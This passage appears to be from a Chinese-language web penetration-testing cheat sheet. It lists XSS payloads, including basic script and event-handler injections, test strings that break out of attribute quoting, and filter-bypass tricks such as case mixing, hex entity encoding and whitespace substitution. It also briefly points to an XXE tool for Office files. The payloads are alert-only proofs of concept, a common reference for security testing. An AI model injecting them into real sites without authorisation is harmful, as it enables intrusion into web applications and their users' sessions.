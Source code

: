 ## 其它

- DOCX
- XLSX
- PPTX
- PDF
- https://github.com/BuffaloWill/oxml_xxe

# XSS

## Basic Payload

- `<script>alert(1)</script>`
- `<svg/onload=alert(1)>`
- `<img src=# onerror=alert(1)>`
- `<a href="javascript:alert(1)">g</a>`
- `<input type="text" value="g" onmouseover="alert(1)" />`
- `<iframe src="javascript:alert(1)"></iframe>`
- ...

## Testing

- `<script>alert(1)</script>`
- `'"><script>alert(1)</script>`
- `<img/src=@ onerror=alert(1)/>`
- `'"><img/src=@ onerror=alert(1)/>`
- `' onmouseover=alert(1) x='`
- `" onmouseover=alert(1) x="`
- ``` `onmouseover=alert(1) x=` ```
- `javascript:alert(1)//`
- `{}@import"//innerht.ml?`
- `{}%0a@import"//innerht.ml?`
- ....

## 绕过

- `//`(javascript注解)被过滤时，可以利用算数运算符代替
    - `<a href="javascript:alert(1)-abcde">xss</a>`
- HTML特性
    - 不分大小写
        - `<ScRipT>`
        - `<img SrC=#>`
    - 属性值
        - `src="#"`
        - `src='#'`
        - `src=#`
        - ```src=`#` ``` (IE)
- 编码绕过
    - `<svg/onload=alert(1)>`
        - `<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>` (16进制) (分号可去掉)
- 绕空白
    - `<img/src='1'/onerror=alert(0)>`
## 其他
